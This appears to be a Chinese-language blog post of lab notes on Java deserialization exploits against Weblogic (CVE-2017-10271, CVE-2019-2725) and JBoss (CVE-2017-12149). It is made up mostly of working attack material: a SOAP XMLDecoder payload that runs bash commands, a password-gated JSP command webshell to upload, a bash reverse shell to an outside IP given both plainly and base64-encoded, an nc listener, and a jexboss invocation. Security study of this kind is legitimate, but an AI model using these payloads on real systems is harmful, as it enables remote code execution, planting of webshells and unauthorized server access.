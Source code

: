 ```yaml
---
layout: post
title:  Java反序列化漏洞
date:   2022-06-04 00:08:01 +0300
image:  2022-06-04-woman.jpg
tags:   [web,java,deserialization]
---
```


# Weblogic CVE-2017-10271

首先看一下Weblogic经典的404页面

![]({{site.baseurl}}/img/deserialization/2022-06-04-404.jpg)

测试一下是否存在wls-wsat组件，访问http://192.168.48.131:7001/wls-wsat/CoordinatorPortType

发现存在漏洞页面

![]({{site.baseurl}}/img/deserialization/2022-06-04-wls-wsat.jpg)

编写EXP

```assembly
<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/">
    <soapenv:Header>
        <work:WorkContext xmlns:work="http://bea.com/2004/06/soap/workarea/">
            <java version="1.6.0" class="java.beans.XMLDecoder">
                <object class="java.lang.ProcessBuilder">
                    <array class="java.lang.String" length="3">
                        <void index="0">
                            <string>/bin/bash</string>
                        </void>
                        <void index="1">
                            <string>-C</string>
                        </void>
                        <void index="2">
                            <string>payload</string>
                        </void>
                    </array>
                    <void method="start"/>
                </object>
            </java>
        </work:WorkContext>
    </soapenv:Header>
    <soapenv:Body/>
</soapenv:Envelope>
```

遇到命令中有特殊字符的情况下可以使用：

http://www.jackson-t.ca/runtime-exec-payloads.html网站进行Bash编码处理

对http://192.168.48.131:7001/wls-wsat/CoordinatorPortType抓包，修改GET为POST，增加/修改Content-Type:text/xml，发送数据包。

准备一个JSP的CMDshell

```assembly
<%
	if("x".equals(request.getParameter("pwd"))){
		java.io.InputStreamin=Runtime.getRuntime().exec(request.getParameter("i")).getInputStream();
		int a = -1;
		byte[] b = new byte[2048];
		out.print("<pre>");
		while((a=in.read(b))!=-1){
			out.println(new String(b));
		}
		out.print("</pre>");
	}
%>
```

上传该CMD shell，复制上传的webshell地址

http://192.168.48.131:7001/wls-wsat/acsa.jsp

测试是否可以执行

```assembly
?pwd=x&i=ifconfig
```

# Weblogic CVE-2019-2725

借助http://www.jackson-t.ca/runtime-exec-payloads.html网站将想要执行的反弹shell命令编码处理

```assembly
bash -i >& /dev/tcp/172.22.12.216/5555 0>&1
bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xNzIuMjIuMTIuMjE2LzU1NTUgMD4mMQ==}|{base64,-d}|{bash,-i}
```

执行命令

服务器nc监听5555端口

```
nc -lvp 5555
```

![]({{site.baseurl}}/img/deserialization/2022-06-04-shell.jpg)

# JBoss CVE-2017-12149

python jexboss.py -host http://192.168.48.131:8080/